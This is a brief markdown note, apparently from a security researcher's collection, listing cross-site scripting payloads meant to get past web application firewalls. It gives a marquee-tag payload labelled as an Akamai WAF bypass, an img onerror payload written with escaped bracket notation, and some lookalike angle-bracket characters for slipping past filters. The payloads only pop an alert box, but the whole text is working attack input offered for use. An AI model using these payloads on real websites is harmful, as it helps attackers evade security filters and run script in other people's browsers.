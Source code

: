 # XSS WAF bypasses

<marquee/loop=1+width=0+onfinish=[document.domain].map(confirm)> Akami WAF bypass.<br>
<img/src/onerror=self\[\'alert\'\]\(document.domain\)>

＜⧀ ﹤
